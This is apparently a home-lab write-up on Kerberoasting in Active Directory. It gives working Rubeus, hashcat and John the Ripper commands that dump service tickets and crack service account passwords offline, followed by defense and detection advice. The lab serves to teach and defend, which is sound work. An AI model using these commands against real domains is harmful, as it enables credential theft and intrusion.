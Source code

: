 # Kerberoasting

## Objective

Kerberos uses Service Principal Names (SPNs) to link service instances to logon accounts, allowing client applications to request authentication without knowing the account name. Kerberoasting exploits this by obtaining a Ticket Granting Service (TGS) ticket, which is encrypted with the service account's NTLM hash, and then performing offline password cracking.

### Skills Learned

- Active Directory
- Domain Policy
- Domain Functional Levels
- Password Policy
- Kerberos Delegation

### Tools Used

- Windows Server DC
- PKI
- Kali Linux
- Rubeus
- Hashcat
- Event Viewer

## Exploit
  Rubeus can be used to obtain crackable tickets.
  ```
  Rubeus.exe kerberoast /outfile:spn.txt
  ```
  ![image](https://github.com/user-attachments/assets/a1dd7db9-d75c-4c1c-89d8-73fc78928428)

Once the tickets are obtained then it's time to crack them.  We can use two tools for this:
  - Hashcat
  - JackTheRipper

#### Hashcat
  This is possible using mode (-m) 13100 for a Kerberoastable TGS (Ticket Granting Service).
  
  ``` hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt``` -- If hashcat gives an error the option.
  ```--force``` may be necessary.
  
  Once Hashcat finishes cracking, the output will show the password in plain text:

![image](https://github.com/user-attachments/assets/08612ccd-b5d7-4c6b-a162-60c66bbc61b7)

  

#### John The Ripper
  Captured TGS hashes can be cracked just the same:
  ```
  sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot
  ```

## Defending

  - Limits SPN usage and disable those no longer needed/used.
  - Strong passwords are required (100+ characters)
  - Use Group Managed Service Accounts (GMSA) whenever possible.

## Detection

  -  Event ID 4769 should return the following useful information:
    ![image](https://github.com/user-attachments/assets/61991542-10d9-4dbd-91c8-242504c342db)
  - A honeypot account 2+ years old with a difficult to break password is a perfect detection option in an AD environment.
  - Assign some privs to make the account interesting and must have an SPn registered.
  - ANY activity in this account, successful or not, is suspicious and should be alerted. 
